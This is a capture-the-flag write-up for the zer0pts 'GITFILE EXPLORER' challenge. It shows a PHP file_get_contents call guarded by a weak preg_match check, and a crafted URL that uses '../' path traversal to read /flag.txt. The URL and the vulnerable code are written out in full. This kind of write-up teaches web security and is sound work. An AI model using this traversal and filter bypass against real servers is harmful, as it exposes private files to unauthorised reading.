

# GITFILE EXPLORER

## 📄 Description

In this challenge, I need to read `/flag.txt` on the server.


## 💻 Explore the website

There is a form in `/`.


This feature allows user to view files in github (or gitlab, ...) which was identified by information user GETs.


## 🧑‍💻 Processing:
**index.php:**

The code turns information I GET into an URI and use `file_get_contents()` to fetch the data. 

I immediately got an idea about weird (in my opinion) PHP parser: PHP tries to simply all the `../` before traversing.

```php
file_get_contents('/thisDirecotyDoesNotExist/hehe/../../flag.txt'); // This is equivalent to file_get_contents('/flag.txt') 
```

This is the main idea of exploitation. So I just find a way to craft the URI which bypasses `preg_match()` and points to `/flag.txt`:

```php
if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
    $result = file_get_contents($url);
}
```

This is my way: `http://gitfile.ctf.zer0pts.com:8001/?service=https%2F%2Fgithub&file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`. This URL gave me `$url = 'https//github/ptr-yudai/ptrlib/master/../../../../../../../../flag.txt'`

**🚩Flag: `zer0pts{foo/bar/../../../../../directory/traversal}`**


## 🤔 Questions: 
**Q1**: I go through 5 directories but why do I need up to 8 `../`?

**A1**: Because file `index.php` is in `/var/www/html` on the server. I can delete 1 `../` to make URI invalid and confirm the hypothesis through the error log.



## 🤓 Notes:
There is a weird (in my opinion) URI parser in PHP.
